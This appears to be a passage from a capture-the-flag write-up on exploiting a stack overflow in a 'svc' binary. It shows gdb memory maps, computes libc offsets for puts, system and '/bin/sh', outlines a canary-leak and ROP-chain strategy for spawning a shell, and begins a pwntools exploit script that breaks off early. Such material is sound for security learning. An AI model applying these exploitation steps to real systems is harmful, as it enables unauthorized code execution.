 ```
0x00007ffff7dc7000 0x00007ffff7dd1000 0x0000000000172000 r-- /usr/lib/x86_64-linux-gnu/libstdc++.so.6.0.21
0x00007ffff7dd1000 0x00007ffff7dd3000 0x000000000017c000 rw- /usr/lib/x86_64-linux-gnu/libstdc++.so.6.0.21
0x00007ffff7dd3000 0x00007ffff7dd7000 0x0000000000000000 rw-
0x00007ffff7dd7000 0x00007ffff7dfd000 0x0000000000000000 r-x /lib/x86_64-linux-gnu/ld-2.23.so
0x00007ffff7fd8000 0x00007ffff7fde000 0x0000000000000000 rw-
0x00007ffff7ff7000 0x00007ffff7ffa000 0x0000000000000000 r-- [vvar]
0x00007ffff7ffa000 0x00007ffff7ffc000 0x0000000000000000 r-x [vdso]
0x00007ffff7ffc000 0x00007ffff7ffd000 0x0000000000025000 r-- /lib/x86_64-linux-gnu/ld-2.23.so
0x00007ffff7ffd000 0x00007ffff7ffe000 0x0000000000026000 rw- /lib/x86_64-linux-gnu/ld-2.23.so
0x00007ffff7ffe000 0x00007ffff7fff000 0x0000000000000000 rw-
0x00007ffffffde000 0x00007ffffffff000 0x0000000000000000 rw- [stack]
```

Here we can see that the libc file is `/lib/x86_64-linux-gnu/libc-2.23.so`. Now there are three offsets we need to find from the base of libc. Those are for `system`, `puts` (we will subtract this offset from the libc puts address to get it's base), and the string `/bin/sh`. We can do that by hand with a bit. First grab the addresses of the things we need in memory:

```
gef➤  p puts
$1 = {<text variable, no debug info>} 0x7ffff76fa690 <_IO_puts>
gef➤  p system
$2 = {<text variable, no debug info>} 0x7ffff76d0390 <__libc_system>
gef➤  search-pattern /bin/sh
[+] Searching '/bin/sh' in memory
[+] In '/lib/x86_64-linux-gnu/libc-2.23.so'(0x7ffff768b000-0x7ffff784b000), permission=r-x
  0x7ffff7817d57 - 0x7ffff7817d5e  →   "/bin/sh"
```

Then subtract the base address of the memory region from the addresses to get the offset:
```
>>> hex(0x7ffff76fa690 - 0x00007ffff768b000)
'0x6f690'
>>> hex(0x7ffff76d0390 - 0x00007ffff768b000)
'0x45390'
>>> hex(0x7ffff7817d57 - 0x00007ffff768b000)
'0x18cd57'
```

One last thing I need to say about this exploit. I mentioned earlier that our strategy is to first leak the stack canary, then overflow the return address with a simple ROP chain that will give us a libc infoleak, then loop back around to the start of menu so we can re-exploit the bug with a libc infoleak. When we re-exploit it a second time, we will use the libc infoleak to just call `system` with the argument `/bin/sh` (both in the libc) to give us a shell. The particular address we will loop back to will be `0x400a96` (the start of `menu`), sometimes it's a bit more tricky than that but not now.

Putting it all together, we get the following exploit:
```
# Import pwntools
from pwn import *

target = process("./svc", env={"LD_PRELOAD":"./libc-2.23.so"})
gdb.attach(target)

elf = ELF('svc')


# 0x0000000000400ea3 : pop rdi ; ret
popRdi = p64(0x400ea3)

gotPuts = p64(0x602018)
pltPuts = p64(0x4008cc)

```